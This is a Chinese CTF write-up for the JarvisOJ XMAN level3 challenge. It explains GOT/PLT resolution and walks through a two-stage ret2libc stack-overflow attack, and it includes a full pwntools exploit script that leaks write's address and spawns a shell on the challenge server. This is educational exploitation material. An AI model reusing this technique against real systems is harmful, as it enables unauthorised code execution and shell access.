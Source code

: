 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel3题解
date: 2018-08-3 13:54:00
author:     "许大仙"
catalog: true
tags:
    - CTF
---
```

day4：XMANlevel3

## 一、GOT表和PLT表  ##


GOT(Global Offset Table)和PLT(Procedure Linkage Table)是Linux系统下面ELF格式的可执行文件中，用于定位全局变量和函数[动态库的]的数据信息.[一开始把GOT表和GDT表看重了，实际上完全不同。GOT+PLT表的目的就是为了在运行时重定位。]

在ELF文件的动态连接机制中，每一个外部定义的符号在全局偏移表 (Global Offset Table，GOT)中有相应的条目，如果符号是函数则在过程连接表(Procedure Linkage Table，PLT)中也有相应的条目，且一个PLT条目对应一个GOT条目。

使用PLT和GOT表的目的就是为了能够动态获取动态链接库中所需函数的地址。如果一个代码调用了非本地的函数，那么就不能单纯靠重定位获得最终地址。因为动态库的加载顺序都不是一定的，无法固定每个动态库中的函数具体位置。因此需要动态获取.so文件的函数地址。

PLT[x]实际上是用于计算[链接器生成一段额外的小代码片段，通过这段代码获取比如printf这样动态库中函数的地址，并完成对它的调用]，GOT用于存储外部函数的具体地址。

[PLT，GOT表的大致原理](https://blog.csdn.net/luojiabin135/article/details/79661868)

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段

![](/img/assets/img/obj_gotplt.jpg)


在一些pwn题中，泄漏出的函数地址放在是got表中。为了泄漏这些真正的地址，往往会用到read，write，put等函数，通过已知同时存在于GOT和libc的函数地址，可以得出偏移量，接着就能通过偏移量找到system函数的真正地址，从而进行ret2lib操作[具体在下述实例中演示]。






PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。

一般是从GOT[3]，开始因为如上所述GOT[0],GOT[1]和GOT[2]有额外用途。中间进行的压栈是为了确定PLT对应的GOT表项，比如push 0x3即是PLT[1]−>GOT[3]. 压栈后我们跳转到PLT[0],接着PLT[0]中的指令会通过这次压栈的序号来确定操作的GOT表项为多少

![PLT/GOT表的两次解析](/img/assets/img/plt_got.jpg)

解析PLT/GOT表的两次解析：https://www.jianshu.com/p/0ac63c3744dd


深入：http://www.360doc.com/content/14/1111/15/19184777_424304443.shtml
http://www.360doc.com/content/14/1111/15/19184777_424303666.shtml


## 解题思路 ##

![checksec查看栈保护机制开启情况](/img/assets/img/checksec3.jpg)

老样子，用checksec查看，和XMAN level2一样，开启了栈不可执行，但是没有开始栈随机化，故可以使用ret2libc技术。

用IDA查看，可以确定通过read函数输入buf进行溢出，但是并没有看到合适的目标函数。与level2相比，在level3的ELF程序中不在出现system和bin/sh。

![没有合适产生shell的函数](/img/assets/img/func3.jpg)

但是level3中还提供了libc-2.19.so的动态链接库文件，默认情况下，程序都会自动引入这个库中的函数。用ida对.so文件进行反汇编，可以看到system函数和“/bin/sh”字符串都存在

![找到可产生shell的函数](/img/assets/img/attack3.jpg)

于是思路：通过read(0,&buf,0x100)[其中0表示标准输入/键盘输入，如果是1则表示标准输出，2表示标准错误输出]，栈溢出ret到system函数，利用参数"/bin/sh"产生shell。

![构造栈帧](/img/assets/img/ans3.jpg)

### 但是问题在于system的地址如何知道呢？ ###

通过libc.so文件可以得到write、system和/bin/sh的相对.so基址的偏移量

设函数func在内存中地址为func_addr,在libc中偏移为func_libc则有

> 　sys_addr - sys_libc == write_addr - write_libc

所以我们可以通过泄露write函数的地址write_addr，**利用两函数在内存中的地址和libc文件中的偏移的差相等**，获得system的地址

> sys_addr == write_addr  + sys_libc - write_libc = write_addr +△ _ libc



### 构造两次溢出 ###

要利用偏移相等获得system和bin的地址，首先要泄露得到write的真实地址，可以通过打印write在got表中的地址，获取其真实地址。

那么第一次溢出，就是调用write函数[利用write函数写的功能]，打印出write_got[write函数的真实地址]。

利用sysaddr = writeaddr - writelibc + syslibc
以及binaddr = writeaddr - writelibc + binlibc得到system函数和"/bin/sh"的真实地址

第二次溢出，就是再次调用vuln_addr，产生一段缓冲区，提供read栈溢出漏洞，利用system函数和"/bin/sh"产生shell。得到flag。

----------

1.输出write的真实地址——**write(1,write_got,4字节)**

在栈溢出到write函数[利用write_plt间接调用write]打印GOT表中的write真实地址，提供"1，write_got，4"这些产生，1表示标准输出到屏幕，write_got表示GOT表中write地址存储的位置指针，4表示4字节打印长度，write的真实地址4字节大小。
【由于在此前已经调用过vulnerable_function中的write函数，那么PLT_GOT表+动态链接器已经得到了write函数的真实地址，并且存储在GOT表中。所以GOT[x]已更新，不再是对应PLT[x]】

![获取write函数的真实地址](/img/assets/img/write_addr.jpg)

当write成功调用后退栈时，将ebp+4作为返回地址，这里应当填充vulnerable_function函数的地址，二次溢出，利用read函数的栈溢出漏洞，跳转到system函数+"/bin/sh"产生shell[由于vulnerable_function函数不需要参数，故不会覆盖第一次溢出的参数]。


最终构造的栈帧图为：
[溢出write函数打印write_got+再返回到vuln函数再次执行read，实现二次溢出到system，最终获取shell]

![](/img/assets/img/level3.jpg)

## 解题步骤 ##

```python
#!usr/bin/env python
# encoding:utf-8
from pwn import *

#io = process("./level3")
io = remote("pwn2.jarvisoj.com",9879)
elf = ELF("./level3")  #获取ELF文件头

writeplt = elf.plt["write"]　　　　#plt和got节同.text节一样在ELF程序中都有标识
writegot = elf.got["write"]   #得到write函数在GOT表和PLT表中的位置指针
func = elf.symbols["vulnerable_function"] #在符号表中得到vulnerable_function的真实地址

libc = ELF("./libc-2.19.so")  
writelibc = libc.symbols["write"]　　　　#libc的符号表中找到程序中有的/没有的函数的偏移地址
syslibc = libc.symbols["system"] 
binlibc = libc.search("/bin/sh").next() #"/bin/sh"的偏移量

payload1 = 'a' * 0x88 + 'f**k' + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数

io.recvuntil("Input:\n")
io.sendline(payload1)

writeaddr = u32(io.recv(4))　　　　#收到终端/屏幕输出的write真实地址[4字节]。由于python没有指针，不能*write_got，需要将其输出并保存
sysaddr = writeaddr - writelibc + syslibc　　　　#利用偏移量相等获得其真实地址
binaddr = writeaddr - writelibc + binlibc

payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)  #二次溢出，还是有0x88+0x4的缓冲区
io.recvuntil("Input:\n")
io.sendline(payload2)
io.interactive()
io.close()
```


![攻击过程结果](/img/assets/img/process3.jpg)

## 补充 ##

[libc中的文件IO函数](https://blog.csdn.net/miss_acha/article/details/38274883)


**基于文件描述符**的I/O函数有：**open, close, read, write, getc, getchar, putc, putchar**等。他们**属于系统调用，更接近于硬件**，属于非缓冲文件系统的IO函数。

非缓冲文件系统依赖于操作系统，**通过操作系统的功能对文件进行读写，是系统级的输入输出，它不设文件结构体指针，只能读写二进制文件**[而文本文件不行]，（对于UNIX系统内核而言，文本文件和二进制代码文件并无区别），但效率高、速度快。由于ANSI标准不再包括非缓冲文件系统，因此，在读取正规的文件时，建议大家最好不要选择它。


**基于文件指针**的I/O函数有：**fopen,fclose,fread,fwrite,fgetc,fgets,fputc,fputs,freopen,fseek,ftell,rewind, fprintf等**。他们属于库函数，是对open,write等系统调用的封装，属于缓冲文件系统的I/O函数。

缓冲文件系统是借助于文件结构体指针FILE*来对文件进行管理，
**通过文件指针对文件进行访问，即可以读写字符、字符串、格式化数据，也可以读写二进制数据。**